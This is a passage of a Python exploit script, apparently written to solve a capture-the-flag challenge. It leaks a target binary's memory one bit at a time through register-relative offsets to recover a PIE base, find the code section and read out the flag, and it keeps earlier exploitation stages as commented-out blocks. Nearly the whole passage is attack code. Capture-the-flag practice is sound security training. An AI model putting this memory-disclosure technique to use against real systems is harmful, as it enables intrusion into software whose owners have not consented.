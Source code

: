 ```
        return 0
    target.close()

def start_of_code_byte(reg_offset, local):
    bit_string = ''
    for i in range(8):
        bit_string = str(start_of_code_bit(reg_offset, i, local)) + bit_string
    print(bit_string)
    return int(bit_string, 2)


#Verify leak methodology:
'''
byte = hex(get_a_byte('rip', 0, 0))
print(byte)
'''

#Search stack, manually incremented:
'''
byte = hex(get_a_byte('rbp', 0x10+5, 0))
print(byte)
'''

#Get final nibbles of PIE leak
'''
byte = hex(get_a_byte('rbp', 0x10, 0))
print('current byte is', byte)
byte = hex(get_a_byte('rbp', 0x10 + 1, 0))
print('current byte is', byte)
'''
#Verify start of code section
'''
header = ''
for i in range(4):
    byte = (start_of_code_byte(i, 0))
    header += chr(byte)
print(header)
'''
#Search for flag
'''
for i in range(0x80, 0x100, 0x10):
    test = ''
    for j in range(4):
        byte = (start_of_code_byte(i+j+0x4000, 0))
        test += chr(byte)
    print(test)
    if 'uiu' in test:
        print('SUCCESS!!!')
        print('offset at', hex(i))
        break
'''

flag = ''
for i in range(0x80, 0xb0):
    byte = (start_of_code_byte(0x4000+i, 0))
    print('current byte is', hex(byte))
    flag += chr(byte)
    print(flag)
    if byte == 0:
        print(i)
        break
print(flag)
```